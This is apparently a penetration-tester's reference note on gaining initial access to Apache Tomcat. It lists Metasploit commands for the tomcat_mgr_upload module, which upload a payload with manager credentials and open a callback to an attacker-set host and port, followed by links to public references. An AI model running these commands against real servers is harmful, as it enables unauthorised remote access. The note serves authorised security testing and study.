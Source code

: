 # Initial Access

## Upload Payload

```
msf > use exploit/multi/http/tomcat_mgr_upload

msf exploit(multi/http/tomcat_mgr_upload) > options

msf exploit(multi/http/tomcat_mgr_upload) > set lhost <attacker_IP>

msf exploit(multi/http/tomcat_mgr_upload) > set lport <attacker_PORT>

msf exploit(multi/http/tomcat_mgr_upload) > set rhost <target_IP>

msf exploit(multi/http/tomcat_mgr_upload) > run username=<username> password=<password>
```

---
## References

### Backlinks

- [[JSP]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x07 - Web Panels/Apache Tomcat/Helpers/Scanners]]

### Rapid7

- [Rapid7: Metasploit Framework - Tomcat Mgr Upload Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md)

### Hacktricks

- [Hacktricks: Tomcat](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)

### Hacking Articles

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)